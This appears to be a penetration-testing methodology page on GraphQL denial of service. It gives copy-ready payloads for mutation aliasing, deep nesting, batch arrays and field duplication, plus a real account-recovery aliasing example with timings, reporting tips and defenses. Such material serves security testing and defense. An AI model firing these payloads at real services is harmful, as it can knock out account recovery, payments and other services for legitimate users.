

# GraphQL DoS (Denial of Service)

## Overview

GraphQL DoS occurs when attackers abuse GraphQL's intrinsic features to cause resource exhaustion on the server. The most common techniques include mutation aliasing (multiple calls of the same mutation in a single request), deep nesting (queries with excessive depth), query complexity abuse, and batching attacks. Unlike traditional flood-based DoS, GraphQL DoS often requires only a single HTTP request, making it stealthier.

## Impact

- **Medium**: performance degradation, timeouts on specific endpoints
- **High**: complete Denial of Service for legitimate users, unavailability of critical services (account recovery, payments)

## Where to look

- **GraphQL endpoints**: `/graphql`, `/api/graphql`, `/v1/graphql`
- **Expensive mutations**: phone verification, email/SMS sending, payment processing
- **Complex queries**: nested relationships, resolvers with N+1 queries
- **Batch queries**: endpoints that accept arrays of queries in a single request
- **Introspection**: `__schema` queries to map the whole API

## Testing methodology

### Test flow



### Detailed steps

1. **Map schema**: use an introspection query to list mutations and queries
2. **Identify expensive operations**: mutations that send SMS, email, or make external calls
3. **Test aliasing**: send the same mutation with 2, 3, 4+ aliases
4. **Measure response time**: check whether time increases linearly (~Ns per alias)
5. **Escalate**: increase aliases until it triggers a timeout or a 500 error
6. **Test without valid input**: check whether the server processes even with invalid data
7. **Document**: include the timing of each request as evidence

## Useful payloads

### Mutation aliasing

```graphql
# Basic: 2 aliases
mutation {
  alias1: expensiveMutation(input: {param: "value"}) {
    __typename
  }
  alias2: expensiveMutation(input: {param: "value"}) {
    __typename
  }
}

# Escalated: 5 aliases
mutation {
  a1: expensiveMutation(input: {param: "value"}) { __typename }
  a2: expensiveMutation(input: {param: "value"}) { __typename }
  a3: expensiveMutation(input: {param: "value"}) { __typename }
  a4: expensiveMutation(input: {param: "value"}) { __typename }
  a5: expensiveMutation(input: {param: "value"}) { __typename }
}
```

### Deep nesting (circular references)

```graphql
# If the schema has circular relations (user > posts > author > posts > ...)
query {
  users {
    posts {
      author {
        posts {
          author {
            posts {
              title
            }
          }
        }
      }
    }
  }
}
```

### Batch queries

```json
[
  {"query": "mutation { expensiveMutation(input: {}) { id } }"},
  {"query": "mutation { expensiveMutation(input: {}) { id } }"},
  {"query": "mutation { expensiveMutation(input: {}) { id } }"},
  {"query": "mutation { expensiveMutation(input: {}) { id } }"},
  {"query": "mutation { expensiveMutation(input: {}) { id } }"}
]
```

### Field duplication

```graphql
query {
  user(id: 1) {
    f1: email
    f2: email
    f3: email
    # ... repeat hundreds of times
    f100: email
  }
}
```

### Introspection (recon)

```graphql
query {
  __schema {
    mutationType {
      fields {
        name
        args { name type { name } }
      }
    }
  }
}
```

## Common bypasses

| Technique | Description | When to use |
|---------|-----------|-------------|
| Mutation aliasing | Multiple calls via different aliases | Expensive mutation with no alias limit |
| Deep nesting | Queries with excessive depth | Schema with circular relations |
| Batch array | Array of queries in a single POST | Endpoint accepts batching |
| Field duplication | Same field repeated hundreds of times | No per-query field limit |
| Fragment abuse | Fragments that expand to many fields | No complexity calculation |
| Variables with large arrays | Arrays of thousands of items in variables | Mutation accepts arrays without limit |

## Tools

- Burp/Caido : intercept and modify GraphQL requests, measure response time
- GraphQL Voyager : visualize the schema and identify circular relations
- InQL (Burp extension) : GraphQL scanner, automatic introspection
- Clairvoyance : recover the schema even with introspection disabled
- graphql-cop : GraphQL security auditor

## Real-world example

### Mutation aliasing DoS

Mutation `verifyAccountRecoveryPhoneNumber` aliased 3x in a single request. Each alias added ~8s of processing. With 4 aliases, the response reached ~29s with timeouts and 500 errors. Fix: limit of max 2 mutation aliases.

**Request:**
```graphql
mutation {
  verify1: verifyAccountRecoveryPhoneNumber(input: {
    verification_code: $code, otp_code: $otp
  }) { __typename me { name } }
  verify2: verifyAccountRecoveryPhoneNumber(input: {
    verification_code: $code, otp_code: $otp
  }) { __typename }
  verify3: verifyAccountRecoveryPhoneNumber(input: {
    verification_code: $code, otp_code: $otp
  }) { __typename }
}
```

**Fix response:**
```json
{"errors":[{"message":"Too many mutation aliases: 4 (max 2)"}]}
```

## Reporting tips

- **Include timing evidence**: response time per number of aliases (1=8s, 2=16s, 3=24s)
- Show it works even without valid input (the server processes anyway)
- Calculate impact: "3 concurrent requests with 4 aliases = 12 simultaneous operations"
- Emphasize it is a single-request DoS (stealthier than a flood)
- Note that only 1 authenticated account is required
- Demonstrate timeout or 500 error as evidence of resource exhaustion
- Suggest specific fixes: alias limit, query complexity limit, depth limit

## Defenses (context for the report)

| Defense | Description |
|--------|-----------|
| Alias limit | Limit the number of aliases per request (e.g. max 2) |
| Query depth limit | Limit the depth of nested queries |
| Query complexity | Calculate each query's cost and reject above the limit |
| Timeout per resolver | Individual timeout per resolver, not only per request |
| Rate limiting | Limit requests per IP/user/session |
| Batch size limit | Limit the number of queries in batch requests |
| Persisted queries | Allow only pre-approved queries |
| Introspection disabled | Disable introspection in production |

## References

- HackTricks GraphQL: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql
- OWASP GraphQL Security: https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html
